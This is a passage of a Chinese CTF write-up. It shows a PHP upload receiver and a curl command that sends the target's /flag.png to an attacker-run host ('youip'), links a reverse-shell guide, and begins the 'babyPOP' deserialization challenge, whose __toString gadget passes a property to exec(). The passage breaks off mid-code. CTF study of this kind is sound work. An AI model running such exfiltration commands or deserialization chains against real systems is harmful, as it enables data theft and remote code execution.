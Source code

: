 第三种方法：

服务器先新建一个文件

```php
<?php
//highlight_file(__FILE__);
$uploaddir = '/var/www/html/';
$uploadfile = $uploaddir . basename($_FILES['userfile']['name']);
 
echo '<pre>';
if (move_uploaded_file($_FILES['userfile']['tmp_name'], $uploadfile)) {
    echo "File is valid, and was successfully uploaded.\n";
} else {
    echo "Possible file upload attack!\n";
}
 
echo 'Here is some more debugging info:';
print_r($_FILES);
 
print "</pre>";
 
?>
```

```php
curl -F "userfile=@/flag.png" http://youip/upload.php
```

然后直接访问就可以得到图片显示。

参考文章：

[linux反弹shell](https://xz.aliyun.com/t/2548#toc-1)

### babyPOP

```php
 <?php
class a {
    public static $Do_u_like_JiaRan = false;
    public static $Do_u_like_AFKL = false;
}

class b {
    private $i_want_2_listen_2_MaoZhongDu;
    public function __toString()
    {
        if (a::$Do_u_like_AFKL) {
            return exec($this->i_want_2_listen_2_MaoZhongDu);
        } else {
            throw new Error("Noooooooooooooooooooooooooooo!!!!!!!!!!!!!!!!");
        }
    }
}

class c {
    public function __wakeup()
    {
        a::$Do_u_like_JiaRan = true;
    }
}

class d {
    public function __invoke()
    {
        a::$Do_u_like_AFKL = true;
```